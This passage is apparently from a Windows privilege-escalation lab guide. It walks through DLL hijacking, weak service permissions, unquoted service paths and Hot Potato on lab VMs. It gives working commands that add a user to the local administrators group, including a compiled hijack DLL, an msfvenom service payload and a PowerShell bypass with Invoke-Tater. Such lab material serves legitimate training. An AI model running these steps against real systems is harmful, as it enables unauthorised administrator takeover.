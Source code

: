 Kali VM
1. Open windows_dll.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
3. Copy the generated file hijackme.dll, to the Windows VM.
Windows VM
1. Place hijackme.dll in ‘C:\Temp’.
2. Open command prompt and type: sc stop dllsvc & sc start dllsvc
3.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## BinPath
### Detection
Windows VM
1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.
### Exploitation
Windows VM
1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
2. In command prompt type: sc start daclsvc
3. It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Unquoted Service Paths
### Detection
Windows VM
1. Open command prompt and type: sc qc unquotedsvc
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.
### Exploitation
Kali VM
1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.

Windows VM
1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Hot Potato
### Exploitation
Windows VM
1. In command prompt type: powershell.exe -nop -ep bypass
2. In Power Shell prompt type: Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
3. In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
4. To confirm that the attack was successful, in Power Shell prompt type: net localgroup administrators

---